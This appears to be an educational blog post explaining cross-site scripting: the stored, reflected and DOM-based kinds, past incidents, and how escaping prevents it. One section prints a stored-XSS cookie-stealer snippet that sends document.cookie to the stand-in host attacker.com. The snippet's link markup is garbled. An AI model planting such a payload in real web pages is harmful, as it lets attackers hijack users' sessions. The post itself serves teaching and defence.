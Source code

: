 ```yaml
---
layout: post
title: Cross-site Scripting (XSS) 😈
slug: xss
URL: https://levelup.gitconnected.com/cross-site-scripting-xss-fd374ce71b2f
author: Martin Thoma
date: 2020-10-16 20:00
category: Security
tags: InfoSec, AppSec, Security, Cybersecurity
featured_image: logos/cybersecurity.png
---
```

Cross-site scripting (XSS) is a type of attack on websites where the attacker can make the attacked website deliver JavaScript to the user. This malicious JavaScript is then executed on the users’ machine.

Various types of XSS are distinguished:

* **Stored XSS**: The attacker can make the website store the XSS, e.g. by crafting a comment on Facebook or a chat message on Twitch which contains the malicious message. The malicious message is then delivered to every new client which accesses the page.
* **Reflected XSS**: Some websites allow you to create links that you can share. For example, a Google search. The URL contains the search term and if somebody clicks on that link, Google will show the search term from the link on the page. So Google reflects a parameter of the link on the page. If an attacker changes the search term to contain code, that code could potentially be executed by the browser of any user who clicks on the link.
* **DOM-based XSS**: In modern web applications the logic is mostly in the client. This means the attacker does not have to go to the server-side to do harm. The on-site JavaScript is attacked. In contrast to the reflected XSS, the server didn’t directly cause the issue. The (valid) JavaScript on the page read the attack.

The **attack surface** is pretty big for modern websites. Any user-supplied
data can contain an XSS attack. It could be a comments section, advertisement,
the document.referrer, URL fragments, …

## Why it Matters

* XSS is part of the [OWASP Top-10](https://owasp.org/www-project-top-ten/), meaning it’s recognized as a common vulnerability
* There are **14,625 CVE entries for XSS** vulnerabilities on mitre.org ([source](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=cross-site))
* **2005**: MySpace had a worm called [Samy](https://en.wikipedia.org/wiki/Samy_(computer_worm)). Within 20 hours, the author got one million users to friend him ([source](https://www.vice.com/en/article/wnjwb4/the-myspace-worm-that-changed-the-internet-forever)). **MySpace had to take the site down because of this XSS attack.**
* **2011**: Facebook worm allows automatic wall posts ([source](https://community.broadcom.com/symantecenterprise/communities/community-home/librarydocuments/viewdocument?DocumentKey=6c4ddf17-8e6d-4e92-8bec-f918cbf61afc&CommunityKey=1ecf5f55-9545-44d6-b0f4-4e4a7f5f5e68&tab=librarydocuments))
* **2013**: PayPal was vulnerable as discovered by [Robert Kugler](https://s3cur3.it/references) ([source](https://seclists.org/fulldisclosure/2013/May/163)). It was likely possible to create a link which made a payment when you clicked on it, without you needing to interact.
* **2013**: Yahoo was vulnerable to reflected XSS ([source](https://arstechnica.com/information-technology/2013/01/how-yahoo-allowed-hackers-to-hijack-my-neighbors-e-mail-account/))
* **2016**: Researcher found XSS vulnerability on Facebook ([source](https://whitton.io/articles/xss-on-facebook-via-png-content-types/))
* **2018**: Uber was vulnerable to a reflected XSS attack ([source](https://hackerone.com/reports/191810)). Uber paid $3000 for it.
* **2019**: Steam was vulnerable to a stored XSS attack ([source](https://hackerone.com/reports/409850)). Steam paid $7500 for it.
* **2020**: Facebook paid **$20,000** for finding an XSS attack ([source](https://portswigger.net/daily-swig/xss-vulnerability-in-login-with-facebook-button-earns-20-000-bug-bounty)).
* **2020**: Tumblr was vulnerable to a DOM-based XSS attack ([source](https://hackerone.com/reports/882546)). Automattic paid $350 for it.

![Photo by [Aarón Blanco Tejedor](https://unsplash.com/@healing_photographer?utm_source=medium&utm_medium=referral) on [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral)](https://cdn-images-1.medium.com/max/9856/0*ExwQ55rXgbShCgmN)*Photo by [Aarón Blanco Tejedor](https://unsplash.com/@healing_photographer?utm_source=medium&utm_medium=referral) on [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral)*

## How are XSS attacks executed?

There are various ways attackers can do harm: They can **make the website
unusable** if the XSS script is on it. They can run a **cryptocurrency miner**.
They can **steal sensitive data**.

As promised, it follows how to design a **cookie stealer** for **account
hijacking**.

We just assume that we have a website like Facebook where you can add comments
to posts. We assume that the comments are just taken as is and copied to
everybody who opens the page. The comment we make is

```html
<script>
    image = new Image();
    image.src='[https://attacker.com/steal?cookie='+document.cookie](https://attacker.com/?'+document.cookie);
</script>
```

You can see that this will not do anything — for the other users, this will
just look like an empty message. It will not refresh the page. It will not open
another window. But it will call http://attacker.com/steal with a GET request
which has a cookie parameter. Hence on the side of the attacker there only
needs to be a web server that is reachable and logs those requests. After that,
the attacker can use the cookie and impersonate the victim. The attacker
doesn’t know the victims' credentials but hijacked the session instead.

## What can I do to prevent XSS attacks?

Never blindly trust user data. Remove potentially harmful parts, escape parts
that will change the expected output. You might want to remove and `<script>`
tags or replace `<` by `&lt;`. It’s not enough, though. You can also execute
JavaScript with the
[onload attribute](https://www.w3schools.com/jsref/event_onload.asp). That
attribute can be added to many or even all HTML tags.

Various languages have methods to escape those:

* Go: [EscapeString](https://golang.org/pkg/html/#EscapeString)
* Java: [org.apache.commons.lang.StringEscapeUtils.escapeHtml](https://commons.apache.org/proper/commons-lang/javadocs/api-2.6/org/apache/commons/lang/StringEscapeUtils.html#escapeHtml(java.lang.String))
* JavaScript: [DOMPurify](https://www.npmjs.com/package/dompurify)
* Python: [html.escape](https://docs.python.org/3/library/html.html#html.escape)
* PHP: [htmlspecialchars](https://www.php.net/manual/en/function.htmlspecialchars.php)
* Ruby: [htmlescape](https://ruby-doc.org/stdlib-2.6.3/libdoc/erb/rdoc/ERB/Util.html#method-c-html_escape)
* Rust: [htmlescape::encode_miniaml](https://docs.rs/htmlescape/0.3.1/htmlescape/fn.encode_minimal.html)

Also, make sure you do that as early as possible. There should be a secure way
to use data from the database — and that should not require to know that there
is potentially harmful data within it. So escape the data before you put it in
the DB. Make sure escaping is
[idempotent](https://en.wikipedia.org/wiki/Idempotence) — escaping two times
should be the same as escaping once. If you really think you need the original
somewhere, you can have a _raw field in the database. Or you have a data access
layer (DAL) that takes care of the escaping.

Remember to **sanitize ALL user inputs**, not only stuff that was in input fields. Don’t forget about [URL fragments](https://martin-thoma.com/tags.html#klausur-ref) and [Document.referrer](https://developer.mozilla.org/en-US/docs/Web/API/Document/referrer) .

## See also

I love [Tom Scott](https://en.wikipedia.org/wiki/Tom_Scott_(entertainer)) and [Computerphile](https://www.youtube.com/user/Computerphile) and they made a video about the topic!

<center><iframe width="560" height="315" src="https://www.youtube.com/embed/L5l9lSnNMxg" frameborder="0" allowfullscreen></iframe></center>

## What’s next?

In this series about application security (AppSec) we already explained some of the techniques of the attackers 😈 and also techniques of the defenders 😇:

* Part 1: [SQL Injections](https://medium.com/faun/sql-injections-e8bc9a14c95) 😈
* Part 2: [Don’t leak Secrets](https://levelup.gitconnected.com/leaking-secrets-240a3484cb80) 😇
* Part 3: [Cross-Site Scripting (XSS)](https://levelup.gitconnected.com/cross-site-scripting-xss-fd374ce71b2f) 😈
* Part 4: [Password Hashing](https://levelup.gitconnected.com/password-hashing-eb3b97684636) 😇
* Part 5: [ZIP Bombs](https://medium.com/bugbountywriteup/zip-bombs-30337a1b0112) 😈
* Part 6: [CAPTCHA](https://medium.com/plain-and-simple/captcha-500991bd90a3) 😇
* Part 7: [Email Spoofing](https://medium.com/bugbountywriteup/email-spoofing-9da8d33406bf) 😈
* Part 8: [Software Composition Analysis](https://medium.com/python-in-plain-english/software-composition-analysis-sca-7e573214a98e) (SCA) 😇
* Part 9: [XXE attacks](https://medium.com/faun/xxe-attacks-750e91448e8f) 😈
* Part 10: [Effective Access Control](https://levelup.gitconnected.com/effective-access-control-331f883cb0ff) 😇
* Part 11: [DOS via a Billion Laughs](https://medium.com/bugbountywriteup/dos-via-a-billion-laughs-9a79be96e139) 😈
* Part 12: [Full Disk Encryption](https://medium.com/faun/full-disk-encryption-2090489f9760) 😇
* Part 13: [Insecure Deserialization](https://medium.com/bugbountywriteup/insecure-deserialization-5c64e9943f0e) 😈
* Part 14: [Docker Security](https://levelup.gitconnected.com/docker-security-5f4df118948c) 😇

And this is about to come:

* CSRF 😈
* DOS 😈
* ReDoS 😈
* Credential Stuffing 😈
* Cryptojacking 😈
* Single-Sign-On 😇
* Two-Factor Authentication 😇
* Backups 😇

Let me know if you are interested in more articles around AppSec / InfoSec!
